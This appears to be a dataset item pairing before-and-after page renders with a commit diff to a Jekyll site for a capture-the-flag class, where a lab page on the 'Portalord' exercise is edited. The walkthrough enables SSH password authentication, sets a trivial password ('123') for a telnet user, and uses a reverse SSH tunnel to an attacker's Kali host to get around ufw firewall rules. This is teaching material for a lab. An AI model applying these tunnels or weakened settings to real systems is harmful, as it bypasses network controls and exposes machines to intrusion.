

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/Portalord/Portalord.md, in a window 1280 px wide and 1400 px high, scrolled down 337 px, cut to the strip 245-1400 px from the top of the window. Shown: the whole strip at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Portalord.md

```diff
--- a/classes/Portalord/Portalord.md
+++ b/classes/Portalord/Portalord.md
@@ -16,33 +16,39 @@
 </div>
 
 ---
-# 1 using remote ssh
-using remote ssh to connect back to a students localhost and get around ufw rules set up in the environment.
+# 1 remote ssh
+Use remote ssh to connect back to a localhost and get around ufw rules set up in the environment. This is helpful when firewall rules do not allow access to port 22 from the outside.
 
 
 ### On the ssh-closed-box (ubuntu)
 Set up the ufw wirewalls to block all traffic to port 22
 <div class="scroll-box">
 sudo ufw deny 22
+sudo ufw allow 23
 sudo ufw enable
 </div>
 
-turn password authentication on for the ubuntu box
-#### `sed...`
+Turn password authentication on for the ssh-closed-box.
+#### `sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh`
 
-create a file that is only accessable to an ssh session by setting a "read only by owner"
+Create a file that is only accessable to an ssh session by setting a "read only by owner"
 <div class="scroll-box">
 echo "insert a flag here" > /home/ubuntu/ssh_flag.txt
 chmod 600 /home/ubuntu/ssh_flag.txt
 </div>
 chmod permissions: Read (r=4), Write (w=2), Execute (x=1)
+
 first int is the owner
+
 second int is the group
+
 third int is others
+
 so 600 = 4+2 for the owner and 0 for group and 0 for everyone else
 
 Create a user that can only access telnet specific files
 #### `sudo adduser teluser`
+- select a simple password (123)
 
 set limited permissions for teluser
 #### `sudo nano /usr/local/bin/telnet_shell.sh`
@@ -65,16 +71,21 @@
 sudo apt update && sudo apt install telnet -y
 </div>
 
+Turn on your ability to reverse ssh with a password:
+#### `sudo sed -i 's/^#\?PasswordAuthentication .*/PasswordAuthentication yes/' /etc/ssh/sshd_config && sudo systemctl restart ssh`
+
 now telnet into the ssh-closed-box
 #### `telnet x.x.x.x`
 
 now bind a local high port to local 22
-<div class="scroll-box">
+
 ssh -N -R 2222:localhost:22 kali@your.kali.ip.addr.
-</div>
 
-if it appears to "hang" you have an open connection
-now from a differnt terminal on you kali localhost
+-N means --no-shell, -R means:--remote-port-forward
+
+If it appears to "hang" you have an open connection
+
+Now from a differnt terminal on you kali localhost
 ####'ssh -p2222 ubuntu@ssh.closed.box.ip
 
 go and find your flag
```
